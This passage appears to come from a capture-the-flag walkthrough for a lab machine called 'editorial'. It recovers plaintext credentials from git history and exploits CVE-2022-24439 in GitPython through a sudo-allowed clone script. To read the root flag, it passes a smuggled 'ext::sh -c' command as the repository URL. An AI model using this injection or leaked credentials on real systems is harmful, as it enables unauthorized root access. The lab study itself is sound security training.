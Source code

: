 Hence, we can checkout the commit just before it, using `git checkout`. If we review the source code, we find that the `app_api/app.py` script contains `prod` credentials:

```
@app.route(api_route + '/authors/message', methods=['GET'])
def api_mail_new_authors():
    return jsonify({
        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
    }) # TODO: replace dev credentials when checks pass

```

Thus, we now have our `prod` credentials: `prod:080217_Producti0n_2023!@`.

Now, `su` as `prod`. If we run `sudo -l`:

```
User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

We note that `prod` can run `sudo` on this specific Python script. If we review the code, we find that this script simply Git clones from whatever URL we feed in as the argument.

Since Git cloning relies on an external library, we can run `pip3 list` to view the specific library being used.

* Here, we see that `GitPython 3.1.29` is installed.

If we run a quick Google search, we will see that there is a vulnerability for this specific Python library version: CVE-2022-24439.

* Here, we can RCE by passing in a `ext::sh` code call as the repository URL. This is due to improper input sanitisation.
* For example, if we pass in `'ext::sh -c touch% /tmp/pwned'` as the repository URL, a new `pwned` file is created in `/tmp`.

Therefore, to read the root flag, we just need to pass in this command:

`cat% /root/root.txt% >% /tmp/root`

* This command reads the root flag, and writes its contents to `/tmp/root`.

We thus run our command:

`sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root'`

Finally, if we `cat /tmp/root`, we will get the root flag.

```
prod@editorial:/opt/internal_apps/clone_changes$ cat /tmp/root
8ec545643dfaf020fe60223c83e306f1
```
